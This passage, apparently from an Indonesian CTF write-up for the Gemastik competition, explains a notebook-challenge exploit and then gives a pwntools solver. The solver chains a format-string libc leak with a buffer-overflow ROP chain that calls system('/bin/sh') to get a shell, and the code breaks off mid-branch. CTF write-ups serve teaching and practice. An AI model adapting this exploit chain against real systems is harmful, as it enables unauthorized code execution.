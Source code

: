 Karena kita dapat mengontrol `rbp` juga, kita dapat melanjutkan buffer overflow kita karena gets akan terpanggil lagi. Selanjutnya tinggal ROP panggil `system` dari libc. Berikut full solver yang kami buat.

```py
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'

PATH = './chall'

HOST = 'ctf.gemastik.id'
PORT = 11101


def add_notebook(idx, title, content):
    r.sendlineafter(b': ', b'1')
    r.sendlineafter(b': ', f'{idx}'.encode())
    r.sendlineafter(b': ', title)
    r.sendlineafter(b': ', content)

def remove_notebook(idx):
    r.sendlineafter(b': ', b'2')
    r.sendlineafter(b': ', f'{idx}'.encode())
    
def add_feedback(data):
    r.sendlineafter(b': ', b'3')
    r.sendlineafter(b': ', data)

def exploit(r):
    add_notebook(18, 
        p64(elf.sym.addFeedback), 
        b'A' * 8) 
    
    call_printf = elf.sym.addFeedback + 0xF
    feedback = 0x404e28
    
    add_feedback(b'%3$p||||' + (b'A' * 0x38) + p64(feedback - 8) + p64(call_printf))
    
    libc_stdin = eval(r.recv().split(b'|')[0])
    libc.address = libc_stdin - libc.sym._IO_2_1_stdin_
    
    info(f'stdin @ {hex(libc_stdin)}')
    info(f'libc @ {hex(libc.address)}')
    
    pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))


    r.sendline(b'A' * 0x48 + 
               p64(pop_rdi_ret) + p64(next(libc.search(b'/bin/sh'))) + 
               p64(pop_rdi_ret + 1) + p64(libc.sym.system))

    
    r.interactive()

if __name__ == '__main__':
    elf = ELF(PATH, checksec=True)
    libc = ELF('./libc.so.6', checksec=False)

    if args.REMOTE:
        r = remote(HOST, PORT)
    else:
```